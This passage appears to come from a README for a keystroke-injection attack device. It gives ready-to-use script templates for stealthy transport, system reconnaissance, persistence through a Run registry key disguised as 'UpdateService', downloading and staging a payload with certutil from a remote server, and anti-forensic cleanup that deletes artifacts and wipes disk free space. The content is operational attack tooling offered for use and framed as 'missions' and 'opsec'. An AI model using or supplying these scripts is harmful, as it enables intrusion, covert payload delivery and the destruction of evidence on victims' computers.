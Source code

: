 ## 🔧 Advanced Operational Security

### Transport and Deployment Procedures

**Safe Transport Configuration:**
```bash
DISABLE_BUTTON
STEALTH_ON
SET_XOR_KEY MissionSpecificKey
# Device is now safe for physical transport
# No risk of accidental activation
# All scripts encrypted
```

**Rapid Deployment:**
```bash
ENABLE_BUTTON
STEALTH_OFF  # Optional - based on opsec requirements
STATUS  # Verify system ready
# Device operational in under 10 seconds
```

### Mission Planning Templates

**Quick Reconnaissance:**
```bash
BUTTON_DEF
DELAY 3000
STRING Quick System Assessment
ENTER
DELAY 1000
LOLBAS_CMD "whoami && hostname && systeminfo | findstr /B /C:\"OS Name\""
ENTER
DELAY 2000
LOLBAS_CMD "ipconfig && netstat -ano | findstr :443"
ENTER
END_BUTTON
```

**Persistence Establishment:**
```bash
BUTTON_DEF
DELAY 2000
LOLBAS_REG add "HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run" /v "UpdateService" /t REG_SZ /d "C:\\Windows\\System32\\notepad.exe"
ENTER
DELAY 1000
LOLBAS_CERTUTIL -urlcache -split -f http://server/payload.exe C:\\Users\\Public\\payload.exe
ENTER
END_BUTTON
```

**Evidence Cleanup:**
```bash
BUTTON_DEF
STRING Removing operational artifacts...
ENTER
DELAY 1000
LOLBAS_CMD "del C:\\Windows\\Temp\\*.txt /q && del C:\\Users\\Public\\payload.exe /q"
ENTER
DELAY 1000
LOLBAS_REG delete "HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run" /v "UpdateService" /f
ENTER
DELAY 1000
LOLBAS_CIPHER /w:C:\\temp
ENTER
```
